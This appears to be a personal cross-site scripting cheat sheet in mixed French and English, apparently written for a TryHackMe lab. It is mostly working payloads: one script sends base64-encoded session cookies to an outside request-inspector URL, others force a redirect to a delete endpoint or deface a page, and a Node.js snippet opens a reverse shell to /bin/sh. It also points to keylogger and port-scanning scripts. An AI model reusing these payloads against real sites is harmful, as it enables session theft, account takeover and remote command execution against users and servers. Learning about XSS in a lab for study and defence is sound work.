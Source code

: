 # XSS Cross Site Scripting

Le payload peut être écrit en Javascript, VBScript, Flash and CSS.  
## Check this GitHub
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
On peut retrouver des payloads sur XSS-Payloads.com

##### Une connaissance de JavaScript est plus qu'utile



## Common Payloads :

### Popup's :
<script>alert(“Hello World”)</script>
- Creates a Hello World message popup on a users browser.
sinon :  <iframe src="javascript:alert(`xss`)"> 

### Get hostname
In Javascript window.location.hostname will show your hostname :
<script>alert(“window.location.hostname”)</script>

### Get cookies
Cookies :
<script>alert(document.cookie);</script>


### Writing HTML (document.write) 
- Override the website's HTML to add your own (essentially defacing the entire page).


### XSS Keylogger 
(http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 
- You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.


### Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) 
- A mini local port scanner (more information on this is covered in the TryHackMe XSS room).


# Reflexcted XSS : Client-Side -> URL bar

http://10.10.186.74/#/track-result?id=<iframe src="javascript:alert(`xss`)">


<script>fetch('https://requestinspector.com/inspect/01gkc0pj9dad25nw3twvkf96hk?cookie=' + btoa(document.cookie));</script>


## REDIRECTION DEPUIS L'URL :
<script>window.location='URL'</script>

## REDIRECTION DEPUIS UN BOUT DU SITE
<script>window.location='/delete/3'</script>



## DEFACING THE PAGE
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
où thm-title est l'id. Ici, c'était un span du genre
<span id='thm-title'>kenjf</span>


## Reverse shell 
Set LPORT to Local Port  
Set LHOST to Local Host
```html
<script>
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(1234, "127.0.0.1", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
</script>
```